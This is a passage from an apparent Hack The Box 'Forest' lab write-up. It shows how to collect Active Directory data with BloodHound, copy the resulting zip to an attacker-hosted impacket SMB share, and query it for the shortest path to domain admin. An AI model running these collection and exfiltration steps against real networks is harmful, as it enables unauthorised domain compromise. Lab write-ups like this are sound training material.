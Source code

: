 So what are these options for:

- -Domain - Is the domain we want to gather objects from. which is in our case is htb.local
- -LDAPUser/LDAPPass - are the username/password of the the user in the specified domain.
- -DomainController - Specifiy the domain controller.
- -CollectionMethod All -  Tells bloodhound to collect all possible information about object(Users/Computers/Domains/Groups/..) in the current domain.
- -ZipFileName - specify the name of the zip output.

Now we have a forest.zip file, we need to transfer it to our machine. You can use impacket-smbserver on you machine to setup a shared folder then you can copy the ZIP from the machine to you shared folder.

**Setup** **a shre** **on your machine:**

    impacket-smbserver files ~/Desktop      //files is the name of the share  , ~/Desktop is the path of the share to add

**Copy the ZIP to you machine , from the forest machine:**

    cp forest.zip \\<your_ip>\<name_of_share>

Now you have the forest.zip on your Desktop.

### **Exploring the forest**

Start neo4j service 

    sudo service neo4j console
    bloodhound

Upload the [forest.zip](http://forest.zip) file to bloodhound

Bloodhound has built-in queries you can choose from, we are going to use "  find the shortest path to domain admin"

![/images/forest/blood2.png](/images/forest/blood2.png)
